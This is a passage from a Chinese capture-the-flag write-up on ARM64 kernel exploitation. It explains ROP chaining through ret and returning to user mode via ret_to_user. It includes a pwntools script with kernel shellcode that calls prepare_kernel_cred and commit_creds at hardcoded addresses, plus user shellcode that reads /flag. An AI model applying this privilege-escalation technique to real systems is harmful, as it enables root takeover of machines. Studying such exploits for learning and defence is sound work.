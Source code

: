 ```c
   0xffff800008012064 <ret_to_user+176>:   ldp     x28, x29, [sp, #224]
```

通过理解官方解法，我学到了非常重要的两点：

1. ARM64的ROP使用ret直接调函数也可以串起来，即回到栈上布置的ROP链。具体操作是将调用函数的地址加4，所以在目标函数序言时，我们跳过了将lr压栈，但在目标函数返回时还是会从栈上pop lr，即可从我们控的栈上继续执行gadget，这种利用gadget的办法比先控了其他寄存器的方法更通用。

2. 借用ret_to_user内核函数的部分代码返回用户态，最重要的是设置elr_el1寄存器为返回用户态的目标地址，以及在恢复其他寄存器时，让栈上全0。

所以我参考官方WP，完成了返回了用户态的解法，说明如下：

1. 在借用ret_to_user内核函数时，直接将栈抬高0x3000，让sp指向内容均为0
2. mmap了两段固定地址的内存，一段用作用户态的shellcode，一段用做用户态的栈
3. 固定地址的用户态shellcode是为了攻击源码与编译后的二进制解耦合，即不希望在源码中存在编译后的地址信息
4. 固定地址的用户态栈是不太想写内联汇编以保存栈地址
5. 用户态的shellcode执行`execve("/bin/sh",0,0)`不成功，但可以ORW

```python
from pwn import *
context(arch='aarch64')

def dump_shellcode(shellcode):
    buf = ""
    for i in shellcode:
        buf += '0x' + hex(i)[2:].zfill(2) + ','
    print(buf)

kernel = asm('''
    mov x0, 0
    ldr x1, =0xffff8000080a24f8  // prepare_kernel_cred
    blr x1
    
    ldr x1, =0xffff8000080a2258  // commit_creds
    blr x1
    
    ldr x21,=0x500000
    ldr x1, =0xffff800008012024  // ret_to_user+112
    sub sp, sp, 0x3000
    blr x1
''')

user = asm('''
    mov sp,   0x600000
    add sp, sp, 0x8000
    add x29,sp, 0x4000
    '''
    + shellcraft.linux.cat("/flag",0)
    + shellcraft.linux.exit(0)
)

print("kernel")
dump_shellcode(kernel)

print("user")
dump_shellcode(user)
```
